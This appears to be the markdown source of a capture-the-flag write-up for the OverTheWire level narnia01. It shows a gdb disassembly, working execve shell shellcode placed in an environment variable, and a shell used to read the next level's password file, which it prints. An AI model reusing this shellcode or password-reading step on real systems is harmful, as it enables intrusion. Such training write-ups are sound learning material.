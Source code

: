 +++
title = "Over the wire - narnia01"
description = "Over the wire - narnia01"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-01"
project_url = "https://greyhat.dk/over-the-wire-narnia-01"
type = "post"
+++



(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   ebp
   0x0804847e <+1>:	mov    ebp,esp
   0x08048480 <+3>:	and    esp,0xfffffff0
   0x08048483 <+6>:	sub    esp,0x20
   0x08048486 <+9>:	mov    DWORD PTR [esp],0x8048570
   0x0804848d <+16>:	call   0x8048330 <getenv@plt>
   0x08048492 <+21>:	test   eax,eax
   0x08048494 <+23>:	jne    0x80484ae <main+49>
   0x08048496 <+25>:	mov    DWORD PTR [esp],0x8048574
   0x0804849d <+32>:	call   0x8048340 <puts@plt>
   0x080484a2 <+37>:	mov    DWORD PTR [esp],0x1
   0x080484a9 <+44>:	call   0x8048360 <exit@plt>
   0x080484ae <+49>:	mov    DWORD PTR [esp],0x80485a9
   0x080484b5 <+56>:	call   0x8048340 <puts@plt>
   0x080484ba <+61>:	mov    DWORD PTR [esp],0x8048570
   0x080484c1 <+68>:	call   0x8048330 <getenv@plt>
   0x080484c6 <+73>:	mov    DWORD PTR [esp+0x1c],eax
   0x080484ca <+77>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484ce <+81>:	call   eax
   0x080484d0 <+83>:	mov    eax,0x0
   0x080484d5 <+88>:	leave
   0x080484d6 <+89>:	ret
End of assembler dump.


narnia1@melinda:/narnia$ export EGG=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
